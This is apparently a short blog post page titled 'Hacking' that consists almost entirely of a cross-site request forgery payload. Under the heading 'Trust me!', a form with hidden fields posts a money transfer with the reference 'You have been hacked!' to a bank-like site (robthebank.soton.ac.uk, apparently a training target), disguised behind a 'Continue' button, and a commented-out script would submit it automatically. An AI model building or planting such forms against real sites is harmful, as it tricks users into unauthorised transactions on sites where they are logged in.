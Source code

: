```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!

<form action="https://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="500">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
	<!--<script>document.getElementById("TransactionTransferForm").submit()</script>-->
</div>

<input class="btn btn-primary" type="submit" value="Continue">
</form>


	

****
